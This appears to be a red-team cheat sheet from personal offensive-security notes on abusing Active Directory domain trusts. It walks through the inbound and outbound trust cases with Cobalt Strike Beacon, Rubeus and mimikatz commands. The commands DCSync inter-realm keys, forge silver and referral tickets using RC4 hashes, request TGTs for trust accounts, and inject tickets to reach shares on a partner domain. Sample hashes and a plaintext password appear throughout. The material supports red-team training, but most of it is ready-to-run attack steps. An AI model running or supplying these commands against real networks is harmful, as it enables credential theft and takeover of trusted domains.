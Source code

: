 
| Value | Trust Direction                 |
| ----- | ------------------------------- |
| 0     | `TRUST_DIRECTION_DISABLED`      |
| 1     | `TRUST_DIRECTION_INBOUND`       |
| 2     | `TRUST_DIRECTION_OUTBOUND`      |
| 3     | `TRUST_DIRECTION_BIDIRECTIONAL` |

| Value | trustAttributes                      |
| ----- | ------------------------------------ |
| 1     | `TRUST_ATTRIBUTE_NON_TRANSITIVE`     |
| 4     | `TRUST_ATTRIBUTE_QUARANTINED_DOMAIN` |
| 8     | `TRUST_ATTRIBUTE_FOREST_TRANSITIVE`  |
| 32    | `TRUST_ATTRIBUTE_WITHIN_FOREST`      |
| 64    | `TRUST_ATTRIBUTE_TREAT_AS_EXTERNAL`  |
`
```powershell
execute-assembly ~/opt/Rubeus.exe silver /user:Administrator /domain:zsm.local /sid:S-1-5-21-2734290894-461713716-141835440 /service:krbtgt/zsm.local /rc4:f112ca3fdde9210caf7335939d95c191 /ldap /nowrap
```
##### Inbound Trust Abuse

Enumerate the one-way trust
```powershell
ldapsearch (objectClass=trustedDomain) --attributes trustDirection,trustPartner,trustAttributes,flatname
```

Enumerate the Foreign Security Principals Container.
```powershell
ldapsearch (objectClass=foreignSecurityPrincipal) --attributes cn,memberOf --hostname contoso.enclave --dn DC=contoso,DC=enclave
```

Enumerate interesting SID
```powershell
ldapsearch (objectSid=[SID])

ldapsearch (objectSid=S-1-5-21-1076548718-1118529210-2193484809-2601)
```

Perform DCSync to obtain inter-realm key.
```powershell
make_token CONTOSO\dyork Passw0rd!
dcsync contoso.com CONTOSO\ENCLAVE$
rev2self

700f2ef9f5c327c5acb0502277ba9b3847b9e0454dbf27d3658f7249c32e924b
f112ca3fdde9210caf7335939d95c191
```

Forge a referral ticket offline or online using the `/ldap` flag
```powershell
C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe silver /user:pchilds /domain:CONTOSO.COM /sid:S-1-5-21-3926355307-1661546229-813047887 /id:1105 /groups:513,1106,6102 /service:krbtgt/partner.com /rc4:77057e264522cbf4db45d6733b9167dc /nowrap

execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe silver /user:pchilds /domain:CONTOSO.COM /sid:S-1-5-21-3926355307-1661546229-813047887 /service:krbtgt/partner.com /rc4:f112ca3fdde9210caf7335939d95c191 /ldap /nowrap
```

Use forged inter-realm ticket to request service tickets for the trusting domain
```powershell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgs /service:cifs/par-jmp-1.partner.com /dc:par-dc-1.partner.com /nowrap /ticket: 
```

Inject ticket into current session and verify
```powershell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe ptt /ticket:

run klist
ls \\par-jmp-1.partner.com\c$
```

##### Outbound Trust Abuse

 Enumerate the one-way trust.
```powershell
ldapsearch (objectClass=trustedDomain) --attributes trustDirection,trustPartner,trustAttributes,flatName
```

> **From the Medium-integrity Beacon**:

Get the GUID of the TDO
```powershell
ldapsearch (objectClass=trustedDomain) --attributes name,objectGUID

288d9ee6-2b3c-42aa-bef8-959ab4e484ed
```

 Obtain the shared inter-realm key from the TDO.
```powershell
mimikatz lsadump::dcsync /domain:partner.com /guid:{288d9ee6-2b3c-42aa-bef8-959ab4e484ed}

cc19dd9022fb33da79820c340e7c96765f237aa1a5a9dfe889a8f27af12c7a34
6150491cceb080dffeaaec5e60d8f58d
```

 Request a TGT for the trust account using the shared secret.
```powershell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:PARTNER$ /domain:CONTOSO.COM /dc:lon-dc-1.contoso.com /nowrap /rc4:6150491cceb080dffeaaec5e60d8f58d
```

> **From the High-integrity Beacon**:

Inject the TGT into a sacrifial logon session and verify
```powershell
make_token CONTOSO\PARTNER$ FakePass

execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe ptt /ticket:

run klist
```

Perform [enumeration](obsidian://open?vault=Offensive%20Security&file=root%2FRed%20Teaming%2FCobalt%20Strike%20Assumed%20Breach%2F8.%20Discovery%2F_%20Main) on the trusted domain, find roastable users, ADCS instances, etc.
```powershell
ldapsearch (objectClass=domain) --dn DC=contoso,DC=com --attributes name,objectSid --hostname contoso.com
```